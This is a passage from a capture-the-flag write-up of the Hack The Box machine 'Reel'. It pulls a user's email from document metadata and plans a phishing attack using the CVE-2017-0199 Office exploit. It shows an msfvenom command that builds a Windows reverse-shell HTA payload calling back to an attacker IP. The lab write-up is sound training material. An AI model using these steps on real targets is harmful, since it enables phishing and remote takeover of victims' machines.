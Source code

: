Trying to open 'Windows Event Forwarding.docx' we see the file is corrupted and can't be opened:

![broken.png](../assets/reel_assets/broken.png)

But we can use exiftool on the file to checkout the metadata and we discover an email address:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ exiftool Windows\ Event\ Forwarding.docx 

<SNIP>

Creator                         : nico@megabank.com
```

Ok interesting. It seems we may be able to send a malicious email to the nico user and try to catch a reverse shell.

Looking for exploits I find this GitHub walking us through the process: https://github.com/bhdresh/CVE-2017-0199

According to the GitHub page:

```text
Exploit toolkit CVE-2017-0199 - v4.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft Office RCE. It could generate a malicious RTF/PPSX file and deliver metasploit / meterpreter / other payload to victim without any complex configuration.
```

Lets give this a shot.

### Exploitation

First we'll need to create a reverse shell HTA file:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.72 LPORT=443 -f hta-psh -o shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7290 bytes
Saved as: shell.hta
```
